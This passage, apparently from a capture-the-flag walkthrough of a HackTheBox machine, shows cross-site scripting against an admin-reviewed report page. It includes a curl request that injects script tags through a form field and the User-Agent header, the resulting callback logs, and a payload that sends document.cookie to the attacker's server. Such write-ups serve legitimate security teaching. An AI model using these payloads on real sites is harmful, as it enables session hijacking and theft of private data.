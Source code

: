     root@kali# curl -s http://gym-club.crossfit.htb/blog-single.php --data 'name=0xdf&email=0xdf@crossfit.htb&phone=9999999999&message=%3Cscript+src%3D%22http%3A%2F%2F10.10.14.11%22%3E%3C%2Fscript%3E&submit=submit' -H 'User-Agent: <script src="http://10.10.14.11/"></script>'



If this works, the `<script>` tag in the body will trigger the report,
and then the `<script>` tag in the UA string will trigger a request to
me from Crossfit. And that is just what I see on a Python webserver a
few seconds after sending:



    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.208 - - [22/Jan/2021 17:36:39] "GET / HTTP/1.1" 200 -



I'll also catch a request with `nc` to see the full headers being used
by the admin team:



    GET / HTTP/1.1
    Host: 10.10.14.11
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://gym-club.crossfit.htb/security_threat/report.php
    Connection: keep-alive



The admin team is looking at the report in Firefox. I don't see any
vulnerabilities in that version of Firefox.

### XSS Fails

I first tried to leak a cookie with a payload like:



    document.location="http://10.10.14.11/?c="+document.cookie;



I got a hit on my server, but no cookie:



    10.10.10.208 - - [22/Jan/2021 17:46:57] "GET /?c= HTTP/1.1" 200 -



I also wanted to see what else was in `report.php`, as I'm sure that the
person reading this can open it. This JavaScript will query
`report.php`, and then when that request is complete, it will create a
new request and send the results back to me as a POST (I'll be using the
XMLHttpRequest a good bit, so the
[docs](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest)
come in handy here):
